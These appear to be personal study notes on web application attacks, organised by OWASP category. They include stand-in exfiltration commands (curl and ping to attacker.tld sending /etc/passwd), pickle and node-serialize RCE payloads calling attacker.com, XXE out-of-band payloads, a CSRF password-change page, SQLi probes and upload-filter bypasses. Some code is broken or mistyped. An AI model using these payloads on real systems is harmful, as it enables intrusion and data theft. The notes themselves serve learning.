



# OWASP
first of all have a look at [payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) and save it for other uses.

> [!IMPORTANT]
> [Orange](https://blog.orange.tw/) has good article to read.</br>
> have a look at [memoryleaks](https://memoryleaks.ir/) too.
> [PortSwigger](https://portswigger.net/) has good labs to learn.
> use `wappalyzer` extention

## Command Injection
### Basics
whenever we see a suspicious input, we fuzz it. we need to use command separators.
> [!NOTE]
> Recon means try to detect the injection. *it coms from recognize*
```console
; #cut the befoce cmd
&& #run this cmd if that command is tru
| #give result of last cmd to next
|| #is or
`code here` #it open a cmd executor
$(code here) #it opens a cmd exec
{code,here} #if we cant use space
cat$IFS/etc/passwd # if we cant use space ($IFS means space)
cat ${HOME:0:1}etc${HOME:0:1}passwd # {HOME:0:1} means /
```
Out of band means use web app for in out of boundry. *for example use to web send request to another space*
it can be DNS, HTTP or ...
we use this method when doesnt return the output of the injected command. for blind.
we request to our server.
```console
; wget attecker.com
```
<details>
<summary>Lets Read</summary>

- [we hacked apple for 3 months](samcurry.net/hacking-apple/#vuln4)
- [LocalTapiola: RCE using bash command](hackerone.com/reports/303061)
</details>

### Data Exfiltration
For Data Exfiltration (extracting data) u should use these two:
- HTTP Data Exfiltration
- DNS Data Exfiltration

#### HTTP
> [!TIP]
> search request catcher to get a simple server for testing out of bound.

for sending a command or file use these two:
```console
curl https://attacker.tld -d $(cmd) # for cmd result
curl https://attacker.tld --data-binary @/etc/passwd # for sending file
```
#### DNS
> [!TIP]
> look for dns logger to get dns requests (DNS). an example is [DNSbin](dnsbin.zhack.ca)

command is:
```console
ping -c 1 $(whoami).attacker.tld # for sending cmd result
uname -a | od -A n -t x1 | sed 's/ *//g' | while read exfil; do ping -c 1 $exfil.attacker.tld; done # for sending hexed file
```
### Reverse Shell
for reverse shell we force the target machine to connect back to attacking machine.

Procedure:
- attacker's machine listen on a port
- victim's machine connect to the port
- victim spawns a shell
- attacker will have the shell

> [!TIP]
> look at this [site](revshells.com) for get some payload.

> [!NOTE]
> commix is sth like sqlmap :)


## RCE
rce means u can put code in web app.
for inline import in python u can use this:
```python
__import__('PACKAGE_NAME').FUNCTINON('ARGS')
```

## SQL Injection
in sqli we wanna exploit the query.
this is a simple sqli
```sql
SELECT FROM USER WHERE username = ''; SELECT 1=1; --
```

### intraction
we have three kind of intraction between web app and sql.
- data returns directly to user
- data processed and the result shows to user
- nothing returns to user

#### Direct
look at [this example](https://site.com/news/54):

in this case 54 is id of a data in sql so the qury must be like one of this:
```sql
SELECT * FROM news WHERE news_id = $NEWSID;
SELECT * FROM news WHERE news_id = '$NEWSID';
SELECT * FROM news WHERE news_id = "$NEWSID";
```
so it shows all thing to us directly and we can exploit it by **UNION**.

#### Indirect
suppose we wanna buy sth from a shop and when we click on a product it query to sql and if it has it shows us exist else doesnt exist.
so in this case data is porocessed and then the result shown us.
query must be like this:
```sql
SELECT IF ((SELECT count FROM products WHERE product_id = $PRODUCT_ID) > 0, 1, 0) # 0 or 1
```
here doesnt show data just an effect of it.

*We use blind sqli in this case **(boolean based)***

#### NO result
for example for users and ips of a web app it doesnt show u any data. but will do sth.
```sql
INSERT INTO table_name VALUES (value1, value2, ...)
```
there is no view here but we have time effect.

*so we use blind sqli as a **time based***

### Explotation Flow
Based on user privilage we can do many things:
- pulling data from each databse that user has access
- read file
- write file
-  command excutaion

for extracting data u should know, ***data base name***, ***table name*** and ***column name***.


we can pull information with **information_schema**:
- `SELECT schema_name FROM information.schema.schemata` -> shows all database which the user has access to
- `SELECT table_name FROM information.schema.tables` -> shows all tables which the user has access to
- `SELECT column_name FROM information.schema.columns` -> shows all columns which the user has access to

u can use various fliters. for examle in this query it retunrns only column names of a specific database and table:
```SQL
SELECT group_concat(cloumn_name) FROM information.schema.columns WHERE table_schema='DATABASE_NAME' AND table_name='TABLE_NAME' 
```

### UNION
in MYSQL:
- when using `ORDER BY` to order datas by a column name or number. *(if it doesnt exist it will raise an error)*
- when using `UNION SELECT` the number of columns (and order of columns) must be same
- `UNION SELECT` cant use after `ORDER BY`.

a test that use `ORDER BY` vulnerablilty.
```SQL
Default request:
page/?id=54


Test 1:
page/?id=54 ORDER BY 1
page/?id=54' ORDER BY 1#
page/?id=54" ORDER BY 1#


Test 2:
page/?id=54 ORDER BY 1000
page/?id=54' ORDER BY 1000#
page/?id=54" ORDER BY 1000#
```

we can confirm we have sql injection when:
- Test 1 == Default
- Test 2 != Test 1

b/c it hard to be selected 1000 columns so it must raise error and two tests cant be same.

suppose u dont know the first `SELECT` so in this case u must try to find that how many columns are selected.
first look at this to get what i mean about first `SELECT`.
> `SELECT * FROM TABLE_NAME WHERE id=54` the part `SELECT *` is first `SELECT`.

so now u know what we talking about. so look at the tries for exploiting.
```SQL
page/?id=54 ORDER BY 1 # same as default request
page/?id=54 ORDER BY 2 # same as default request
page/?id=54 ORDER BY 3 # same as default request
page/?id=54 ORDER BY 4 # not same as default request
```
so we get that the first `SELECT` select 3 column. in the end we exploit like this via `UNION SELECT`.
```SQL
page/?id=54 UNION SELECT 1,2,3#
```

> [!TIP]
> if u rn't allowed to use qoute(s), u can use HEX code only and only for strings.


### Blind SQLi
- boolean based -> *there is a processed result of data*:
  - the attack released in `True` or `False` detection.
  ```SQL
    Default request:
    page/?id=54


    Test 1:
    page/?id=54 and 1=1
    page/?id=54' and '1'='1
    page/?id=54" and "1"="1


    Test 2:
    page/?id=54 and 1=2
    page/?id=54' and '1'='2
    page/?id=54" and "1"="2
  ```
  - we can confirm sqli when:
    - Test 1 == Default request
    - Test 2 != Test 1
- time bases bline -> *there is no data*:
    - the attack release by time sleeping of HTTP request:
    ```SQL
    page/?id=54 and sleep(10)
    page/?id=54' and sleep(10)#
    page/?id=54" and sleep(10)#
    ```

> [!WARNING]
> sometimes mostly when u seeing a search box query isnt like this `keyword = $INPUT` its like this `keyword like '%INPUT%'` b/c in search we dont wanna exact word. so in this case we need to change our injection to this: `test%' and 1=1#`

for exploiting data:
- sepcify two conditions, a `True` one and a `False` one.
- use sth like `IF` to extract data.
- u cant extract whole data so do it byte by byte
lets make an example:
```SQL
page/?id=54 and 1=1 # True one
page/?id=54 and 1=2 # Flase one
page/?id=54 and 1=IF(2>1,1,0) # True one
page/?id=54 and 1=IF(1>2,1,0) # Flase one
```
lets extract databse name length:
```SQL
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>1,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>2,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>3,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>4,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>5,1,2)-- - # True one
page/?id=54 and 1=IF((SELECT LENGTH(DATABASE()))>6,1,2)-- - # False one
```
so database name length is 6.

### SQLmap
it use for detecting and exploiting sqli.

[here](https://github.com/sqlmapproject/sqlmap) is github repository of it.

## SSTI (Server-Side Template Injection)
u can inject malicious code in web app template.

in ssti:
- dynamic content pass to template.
- so user can inject code
- the flow is like this: detect -> identify template engine -> exploit
- detection payload is:
  ```code
  {{7*7}}
  ${7*7}
  <%= 7*7%>
  ${{7*7}}
  #{7*7}
  ${{<%[%'"}}%\
  ```

  ### Tplmap
  is sth like sqlmap :)
  
  [here](https://github.com/epinna/tplmap?tab=readme-ov-file) is github repository of it.


## CORS (Cross Origin Resource Sharing)
if sop prevents us we have 3 way to share data:
- postMessage -> sending and receiving messages between two different origin
- JSONP -> using `<script>` to transfer js objects
- CORS -> modifying sop by some special response headers

example for response headers:
- `Acess-Control-Allow-Origin: <Origin> | *`
- `Acess-Control-Allow-Credentials: true`

> [!IMPORTANT]
> the browser always put the **correct origin** in the request by **Origin** HTTP header, it can't be spoofed or modified by js.

### Checker Function
a good time that *CORS* will appear is when a company wanna be scaled.
so they write a fucntion to verify origin or deny it.
the function may be vulnurable.
so how it be vulnarable? look the following code(its node js):
```js
app.get('/user/info', (req, res) => {
  if (req.header.origin.indexOf("mysite.com") < 0>) {
    // scurity failed
    // no CORS here
    // exit
  } else {
    add_cors_headers(req.headers.origin); // returns: ACAO: req.headers.origin; ACAC=True
  }

  var user_obj = get_user_data(req.session.user_id);
  res.render('result');
});
```
of course we cant send `https://attacker.com/` as a Origin header but we can send `https://mysite.com.attacker.com` as Origin.

### The Vulnarable CORSs
if a site (`company.com`) works with cookies and has an endpoint which returns sensitive information, the following cases r vulnarable:
> [!NOTE]
> in all cases the cookie's **SameSite** must be **none**.

- case 1:
  - `Access-Control-Allow-Origin: https://attacker.com`
  - `Access-Control-Allow-Credentials: True`
- case 2: 
  - `Access-Control-Allow-Origin: https://company.com.attacker.com`
  - `Access-Control-Allow-Credentials: True`
- case 3: 
  - `Access-Control-Allow-Origin: null`
  - `Access-Control-Allow-Credentials: True`
- case 4 - *vulnarable if any of subdomains r vulnarable to xss: 
  - `Access-Control-Allow-Origin: https://anysub.company.com`
  - `Access-Control-Allow-Credentials: True`

when u see `Access-Control-Allow-Origin: https://attacker.com` and `Access-Control-Allow-Credentials: True` dont rush to report the vulnarablity. just report when u exploit it completely.


<details>
<summary>Let's Read</summary>

> see [this](https://www.youtube.com/watch?v=AUQSYobXbZI) for better view *(part of CORS misconfiguration)*.
</details>


## XSS and CSRF
- we force client do sth that he dont want, when client authenticated
- the action should be stat-changing. such as change profile, change password.
- it should work with `SameSite` cookies
- it should be simple HTTP request and frequnctable

the flow is like this:


for example u make a payload that send a request to change password in a specific site look، this is payload for it:
```js
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1.0"> <title>GOODCMS CSRF exploit!</title>
<script>
  function runCSRF () {
  // It changes the password by sending the request to the server // But you cannot view the resulting response because of SOP
    let request = new XMLHttpRequest();
    request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
            console.log(`[*] Password changed to 'user'`);
        }
      }  
    request.open("POST", "http://good cms. lab: 32225/change_pass");
    request.setRequestHeader("Content-Type", "application x-www-form-urlencoded");
    request.withCredentials = true;
    request.send("password=user&password_repeat=hacked");
    window.onload = function () {
    runCSRF ();
  };
</script>
</head>
<body>
</body>
</html>
```
### CSRF Protection
there r lots of protection to protect **CSRF**.
- using **CSRF token** for preventing forgery.*(most use)*
- checking `Referer` but function to check must be **safe**.
- using a costume header or any thing that makes HTTP request **complex**.

lets review anti csrf token mechanism:
- user sends HTTP req to change password form. *GET request*
- in the response, server returns an anti CSRF token **bound** to **the user's session**.
- user enters a new password and submit the form. and send a **POST request** to server and send *CSRF token* too.
- based on the session csrf token will be checked in the server.


### XSS
XSS is a vulnarabilty that u can inject malicious JavaScript code. there r two types of XSS:
- Normal XSS -> occurs when HTML parse by browser
- DOM XSS -> occurs when js excuted as a result of modifying DOM 
each type can be **reflected** or **Stored**. in the reflected mode no data is saved in the server, so exploit should be delivered to the user by a side channal. in the stored mode the payload is save to server by visiting vulnarable page automutically.

> [!TIP]
> there is also an XSS named **Blind XSS** blind b/c we cannot see result of our payload. we inject payload and hope to vulnarbility.

there is many XSS vectors some popular ones:
```html
<script>alert(origing)</script>

<svg onload=alert(origin)>
```

## Open redirect
open redirect is:
- web app redirect user based on untrusted input
- can be leveraged achived by xss
- can be leveraged to acct takeover in some authentication flow
- can be leveraged to bypass ssrf domain whitelist to achieve full-blown ssrf
- it redirect vitim from a site to a phishing
- it can occur header based or html/js based

lets see a header based:
```python
from flask import Flask, request, redirect
app = Flask(__name__)

@app.route("/")
def page():
  next = request.value.get('next')
  if next:
    return redirect(next)
  else:
    return 'hi :)'

if __name__ == '__main__':
  app.run(host="0.0.0.0", port=80)
```

lets see a js based:
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="veiwport" content="width=device-width, initial-scale=1">
    <title>redirector</title>
    <script type="text/javascript">
      if(windows.location.hash) {
        var hash = windows.location.hash.substring(1); // puts hash in variable and remove # char
        windows.location = hash; // hash found
      }
    </script>
  </head>
</html>
```

### bypassing protection
for protecting redirect developers put a checker function:
```php
<?php
function check_hmac($url, $hmac) {
  return ($hmac == md5($url));
}

if (isset($_GET['url']) && isset($_GET['h'])) {
  if (check_hmac($_GET['url'], $_GET['h'])) header('Location: ' . $_GET['url']);
  else echo "Invalid HMAC";
}
?>
<pre>
<a href="?url=https://google.com&h=999adflskejf">Google.com</a>
</pre>
```
they use hmac to protect. but it's still vulnarable, init?

what about this one?
```html

<!DOCTYPE html>
<html>
<head>
  <title>URL Parameter Input Validation</title>
</head>
<body>
  <script>
  // Function to get query parameter by name
  function getQueryParam(name) {
    var urlParams = new URLSearchParams (window.location.search); 
    return urlParams.get(name);
  }

  // Get the input parameter from the URL
  var userInput = getQueryParam("url");

  // Define the regular expression pattern
  var regexPattern = /^((https?:)?\/\/([^/]+\.)?site\.(net|cn|app))?\/$/;

  if (userInput && userInput.match(regexPattern)) {
    // Redirect the user to the new location based on the user input 
    window.location.href = userInput;
  } else {
    // If the input doesn't match the pattern or is missing, display an error message 
    alert("Invalid input parameter or format");
  }
  </script>
</body>
</html>
```
in here we use **regex** to exploit. for example if u put `https://google.com?a=.site.net/` the regex is bypassed and we redirect to `google.com`.


## Security Missconfiguration
### Default Credentials
in this missconfig an attacker logs in by **default** password or **weak** one. some teqniices for default password checking:
- searching net for default password of sepecific product
- brute force it -> a user, bunch of passwords
- password spray attack -> a password, bunch of users

> [!NOTE]
> a usefult [site](https://github.com/danielmiessler/SecLists). visit for some security list.

### Stack Trace Error
send a value that programmer have no idea about it. for example in djago, disclosure `SECRET-KEY` will result remote code executaion *(RCE)*.
read these:
- [Remote Code Executaion in Facebook Server](https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/)
- [Django debug mode to RCE in Microsoft acquisition](https://medium.com/@syedabuthahir/django-debug-mode-to-rce-in-microsoft-acquisition-189d27d08971)

### Verb Tamper
in short it means, we change `method` of http.
`GET` -> `POST`, `POST` -> `PATCH` or anything you want.

> [!TIP]
> HTTP Verb Tampering is an **attack that bypasses an authentication or control system that is based on the HTTP Verb**

not only http verb tamper can be used for authentication bypass, but also sometimes leads to information discolsure or even **IDOR** vulnarablity. *(What is it?)*

### Force Browsing
an attacker can use brute force technique to search for **unlinked contents** in the domain directory, such as temperory directories and files. and old backup and configuration files. these may sotre **sensetive information**. use these tools:
- Fuzz Faster U Fool [(ffuf)](https://github.com/ffuf/ffuf) :fire:
- Gobuster [gobuster](https://github.com/OJ/gobuster)
-  The Web Fuzzer [(wfuzz)](https://github.com/xmendez/wfuzz)

common file type to discover:
```
Version control Files: .git|.svn
Backup Files: .zip|.tar.gz|.7z
Bash Files: .bash|.sh
Source Codes: .py|.phps|.go
Package Files: composer.json|nmp_modules
```

#### FFUF
a complete documentation of ffuz found [here](https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html). we can use ffuf for:
- directory brute force
- file brute force (various extentions)
- parameter fuzzing (not recomended)
- header fuzzing
- authentication brute force
- etc

### S3 Bucket Missconfiguration
bucket is a **container for object store in Amazon s3**. u can store number of buckets in buckets:
- each bucket has unique name
- each bucket access is limited by permision
  - owner can configure read and write and edit for anonymous users
  - for example, `aws s3 ls s3://bucket_name/` list the objects
- some websites are fully hosted in s3 bucket
- if the permissions not configured well can be a missconfiguration

buckets urls are like this: `bucketname.s3-website.something.amazonaws.com` so its clear that the first part b4 `s3-website` is **bucket name** and if we have missconfiguration whenever u remove the `-website` it shows u the bucket content.
- `bucketname.s3-website.something.amazonaws.com` -> `bucketname.s3.something.amazonaws.com` to show contents

## SSRF
Server-Side Request Forgery is a vulnarability which let an attacker send **crafted request** from **backend server**. this is a vulnarable code:
```php
<?php
/**
 * check if the 'url' GET variable is set
 */
if (isset($_GET["img"])) {
  $img = $_GET["img"];
  /**
   * send a request vulnarable to SSRF since
   * no validation is being done on $url
   * b4 sending the request
   */

  $image = fopen($img, 'rb');
  /**
   * dump contents of image
   */
  fpassthru($image);
}
?>
<!DECOTYPY html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>cat</title>
</head>
<body>
  
</body>
</html>
```
usually in ssrf attacker try to access internal server. it brute force all ports to find an open port.
```
https://test.com/?img=https://test.com:8000/
```


> [!IMPORTANT]
> in SSRF u dont have to send just http u can send tcp to
> and u can send request to in internal devices too

### Detection

SSRF can be full-blown or blind:

- in normal mode, detection is based on the server response
- in blind mode, detection is based on the measures, such as time. sometimes out of band technique helps us to detect the flaw:

https://site.com/?url=http://attackerserver:port/the flow is:


    schemes can be used:

- protocols can extent the attack surface of SSRF
  - `files://` -> allows an attacker to fetch the content of a file on the server
  -` dict:// `-> used to refer to word lists
  - `sftp://`
  - `ldap://` -> lightweight directory access protocol
  - `tftp://` -> ftp which works over udp
  - `gopher://` -> designed for distributing searching and rerieving docs
  - `http://`
  - `https://`

we use these schems for attacking.

### checker function

programmer add filter to prevent ssrf some of them is:

- domain name (strict regex):
  - one site regex `https?:\/\/(www\.)?test.com/.+`
  - all subdomain regex `https?:\/\/.+?\.?test.com/.+`
- protocol (whitelist or blacklist)
  - regex for whitelist protocol `^https?`
  - regex for blacklist protocol `file\:\/`

the flow is sth like this:


### Explotaiotn

for exploit:

- interacting to internal REST APIs
- disclosing the origin ip behind cdn
- scanning interanl ip and ports
- reading cloud metadata
- reading internal files
- escalating RCE

these tools can be useful:

- [gopherus](https://github.com/tarunkant/Gopherus)
- [ssrfmap](https://github.com/swisskyrepo/SSRFmap)

## IDOR

Broken access control means do sth outside of application or systems intended permission.
idor can occur when a web app uses a user input for direct access to an object in an internal database but does not check for access control. lets make an example:

```code
http://foo.bar/somepage?invoice=15122 #200in
```

the url above the user get access to an invoice based on the query string. if change the 15122 the idor will happen.

```code
http://foo.bar/somepage?invoice=15123 #should return 403
```
flow is:


## Crypto Failures

we wanna learn about hmac, hash, salt and things like these.
samples:

- cleantext or plaintext
- use some algorithm and we call it encryption
- so we need a unique key and get algorithm
- when we have cipher-text and change it plaintext we call it decryption
- rectangle of cryptography:
  - confidentiality, cant be undrestood
  - integrity, cant be chnage
  - non-repudiation, creator cant change
  - authentiacation
- algorithm of cryptography are two:
  - single-key or symmetric-key such as AES.
  - pair-key or assymetric-key such as RSA. if use public we call it encrypting. if we use private ket we call it signing
- hasing is one-way function working without key, it is impossible to decryot a hash and obtain plaintext
- some famous hashing function, md5, sha256, sha512 and bcrypt. bcryot is best one now.
- encoding means putting some charactor into specialized format for efficient transmission or storage. such as base64, hex and etc

making md5:

```bash
echo -n "example" | openssl md5
```

making base64:

```bash
echo -n "example" | openssl enc -base64
```

making AES256:

```bash
echo -n "example" | openssl enc -e -aes256 -a -iter 123 # if instead of -e use -d means decrypt
```

making RSA we call this GPG Encryption:

```bash
openssl genrsa -put example_private.pem 2048
openssl rsa -in example_private.pem -pubout > example_public.pem
echo secret > secret.txt
openssl rsautl -encrypt -inkey example_private.pem -pubin -in secret.txt -out top_secret.enc
openssl rsautl -decrypt -inkey example_public.pem -in top_secret.enc
```

### Password Storage

- a secure password storage prevents attackers to access passwds even if the database is compromised
- passwd must hashed by a safe algorithm b4 save
- attackers can brute force hashes offline
- hashing and encryotion both provide ways to keep sensetive data safe. 
- hashing is one-way function
- encryption is two-way function
- how to crack hashes:
  - they generate a passwd which is supposed to be the original passwd
  - they calculate the hash of the passwd
  - they compare the hashed passwd with compromised hash
  - repeat the process until they find the hash which matches the compromised hash


> [!TIP]
> we use rainbow table for cracking hash
> [cmd5.org](cmd5.org) has a good rainbow table.

#### Salt
- salt is a random data we add to main data
- for example if passwd is 12345 we have salt rgnfskl and we save hash of rgnfskl12345
- b/c of each salt is base of each user -> *no same hash can find for same passwd*

### JSON Web Token

JWT is a way for securely transimission info between parties

- JWT consits of three parts:
  - Header, containing the type of header and the token and the hashing algorithm
  - Payload, containing the claims
  - Signature, which can be calculated as HMAC SHA256
- the data is plaintext (ecnoded and signed but not encrypt)
- JWT tokens are commonly sent by HTTP headers
  - CORS and CSRF wont be security isssu
- maintain only integrity of data

> [!TIP]
> [jwt.io](jwt.io) is used to make a JWT

## insecure design

it includes, *HTTP request smuggling, unrestricte upload file with dangerous type, bussiness logic error*.

### File upload vulnerablilty

- softwear let u upload a file that can be automatically processed
- it can damage system by:
  - allows certain types of excuting file such as `.php` or `.jsp`
  - allows static such as `.html` or `.svg`
  - allows directory traversal
  
    ```code
    file=../../../../../../../etc/hosts
    ```

  - upload a DoS attack or filling disk space
- for protection we use **extension check, content check, file size check**, etc.

  ```mermaid
  flowchart LR
  f[(file uploading)]
  s([Size Check])
  e([Extension Check])
  c([Content Check])
  u([Upload])

  f --> s
  s --> e
  e --> c
  c --> u

  style e fill:#fdf776,color:#464646
  style c fill:#fdf776,color:#464646
  style u fill:#ff000c,color:#464646
  ```

- there r several ways to access to uploaded files, direct access, indirect access (tokenized)

  ```html
   <!-- example of dircet access -->
   <!-- example of indircet access b/c of the get_image function -->
  ```

  ```mermaid
  flowchart TD
  c((Client))
  s[[server]]
  i(ID -> Path)
  f("file_get(path)")
  r(Response)
  d[(DB)]
  p@{ shape: bow-rect, label: "Stored data" }

  c <-- /file/343 --> s
  i --> f --> r --> i
  i --> d
  f --> p
  r --> s

  ```

the **extenction check** must be safes (in each approach, black or white list)

- altenative extentions such as `.phar` or `.phtml`
- double extension such as `.php.png` or `.png.png`
- extenction with delimiter `.php#.jpg` `.png%00.php`, `.php%0a.png`
- adding extra dots: `.php.` `.jsp.............`

the **content check** must be safe a common way to bypass is

- **adding image magic bytes** to file to manipulate the content checker function

### Business Logic Error

allow an attacker to elicit to unintended behavior. such as **unlimited discount, using a paid feature, double spending**

## Vulnerable and Outdated Compenents

### Nuclei

nuclei is used to send req across targets based on a template, providing fast scanning on a large number of hosts.

- it has an engine, many templates and various options
- the templates flollw YAML
- it supports headless browser to identify DOM vulnarablity
- it also support SSRF by out of band

clone it from [here](https://github.com/projectdiscovery/nuclei)

## Deserialization

### Object Oriented Programming (OOP)

OOP is a computer programming model that organizes software design around **data**, or **objects** rather than **function** and **logic**.

### Serialization

- Serialization:
  - convert complex data
  - object to flatter format
  - the states are persisted
- Deserialization
  - restore serialized
  - completly must be same
- for serialize
  - string format
  - binary format

> [!CAUTION]
> we use serializitaion to send data as string to a user. we cant send **object**

### Insecure Deserialization

it happens when attacker load an unstructed code into a serialized obj.

- user-controlable data is des by web app
- enables an attacker to manipulate serialized objects
- passing harmful data into web app
- insecure des known as **obj injection**
- attacker can inject diff obj
- can be RCE:
  - depends on the lang
  - some needs source code to exploit some not

### Python Vulnerability

in python if we can get find the bug it disclosure RCE :)

this is a payload:

```python
import pickle
import os
import base64

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('curl attacker.com:2101', ))

pickle_data = pickle.dumps(EvilPickle())
with open("my.data", "wb") as f: # save base64 of pickled data
    f.write(base64.b64encode(pickle_data))
```

so rce is here in `attacker.com:2021` :)

### Nodejs Vulnerability

node js give us RCE too :)))
so payload in Nodejs is:

```js
var y = {
  rce : function() {
    require('child_process').exec('curl attacker.com:2121', function(error, stdout, stderr) { console.log(stdout) });
  },
}

var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y))
```

when u run this it gives u sth like this:

```bash
{"rce":"_$$ND_FUNC$$_function() {\n    require('child_process').exec('curl attacker.com:2121', function(error, stdout, stderr) { console.log(stdout) });\n  }"}
```

u must add `()` in end b4 `"}` -> `()"}`

### PHP Vulnerability

always cant be RCE, it depends on source code completely.

> [!TIP]
> When user input is des by PHP, **magic methods** are invoked automatically

in `PHP` we can just ***excute an obj not a code***

## XXE

### Data Transimission

we wanna talk about json and xml, they get the type via `Content-Type` header:

- they r used for sending data into server
- they make files readable for api and app
- JSON
  - is easily parsed and ready to use
  - it supports always
- XML
  - it has a complex data structure
  - it is tree strucured


in **XML**:

- XML specification: sysntax
- XML entity: variable
- System Identifier: is kind of function
- DTD
- **Well Formed** means an xml with ok **sysntax**
- if its **validated** by DTD too, we call it **Well formed and Valid**

depended rsp (full blown):


independent rsp (blind):


### Start XXE

what is it?

- XML is a widely-used **data format**
- for transfer **server-2-server or browser-2-server**
- modifying xml may result in an **External XML Entity (XXE)**
- XXE can enable an attacker to manipulate an app **XML query processing**
- the xml specification includes several **features that could pose risks**

### XXE and SSRF

system identifiers accept url, so other schemes such as `http`, `gopher`, `dict`, etc are acceptable:


we mostly use `SYSTEM` identifier.

> [!NOTE]
> search WAPT

### REading Files

if we have file that has `<` or sth like this that has meaning in `XML` in it parser has error in reading it.

#### PHP Wrapper

system identifiers accepts various schemes a useful one in XXe is `php://` which allows base64 encoding:

```XML
<?xml version="1.0" encoding="ISO-8859-9"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM "php://filter/read=convert.base64-encode/resource=/path/file.php">
]>
<owasp>
  <test>&bar;</test>
</owasp>
```

which result in reading `file.php`.

#### for other language (CDATA)

special xml chars in **CDATA** tags are ignored by the xml parser.

```xml
<data><! [CDATA[ < " ' & > characters are ok in here ]]></data>
```

so all whick should be done is to put file's content in the `CDATA`

```xml
<?xml version="1.0" encoding="ISO-8859-9"?>
<!DOCTYPE data [
  <!ENTITY start "<![CDATA[">
  <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/path/file.php">
  <!ENTITY end "]]>">
  <!ENTITY all "&start;&file;&end;">
]>
<owasp>
  <test>&all;</test>
</owasp>
```

b/c we cant use external entities combined with internal entities it throws error.
the solution is **Parameter Entities**

> [!TIP]
> parameter entities behave like and are declared alomost exactly like a general entity. however the use `%` instead of `&` and they can **only** be used in a DTD while general entities can only be used in the document content

```xml
<?xml version="1.0" encoding="ISO-8859-9"?>
<!DOCTYPE data [
  <!ENTITY % test
  "<!ENTITY bar 'tet'>">
  %test;
]>
<owasp>
  <test>&bar;</test>
</owasp>
```

for exploit we need **server** to put payload in it.

```xml
<?xml version="1.0" encoding="uft-8"?>
<!DOCTYPE root [
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % stuff SYSTEM "/path/file.php">
  <!ENTITY % end "]]>">
  <!ENTITY % dtd SYSTEM "http://attacker.com/payload.dtd">
  %dtd;
]>
<owasp>
  <test>&all;</test>
</owasp>
```

and payload is:

```xml
<!ENTITY all "%strat;%stuff;%end;">
```

### blind reading file

we send to attacker port `9091`:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ENTITY r ANY >
  <!ENTITY % sp SYSTEM "http://attacker.com:9090/payload.dtd">
  %sp;
  %final;
]>
<owasp>
  <test>&exfil;</test>
</owasp>
```

and the payload is:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/path/file.php">
<!ENTITY % final "<!ENTITY exfil SYSTEM 'http://attacker.com:9091/?d=%data;'>">
```

## auth-01

auth class has:

- registratio
- login mechanism
- forget password
- 2fa

authentication is verifying identity:

- there r several authentication models
- small companies use one of models
- big companies force to use modern technologies
- b/c scalabilty is important
- b/c security is important


> [!WARNING]
> `http` is **statless**. and user state wont save. so web app save sth on client side

where do web app save info in browser?

- `html` source code, such as html form (DOM), etc
- cookie
- LocalsStorage or SeesionStorage

no matter how, the state is kept by browser



### Auth, Cookie vs Token

- cookie is info which r stored in clients browsers
- sessions r **cookies**
- session's data is saved in the server
  - can be save in a file or db **in the server** (in plain text or encrypted)
  - defualt -> saved in a file in plain text
- cookie data is saved **in user browser**
- **session id** is saved in **users browsers as a cookie**
- cookie handled by web app, session by web server
- session destroyed by closing browser but cookie not
- user can alter:
  - only seesion id
  - cookie data

#### Authentication Cookie

- can be saved in:
  - only cookie
  - only session
  - both
- it define the security
- in most
  - authentication stat is saved in the session (checkd every request)
  - re-authentication token is saved in the cookie (check only if the session is not present)


#### Authentication token

token instead of the cookie commonly used jwt:
- no info saved in server-side
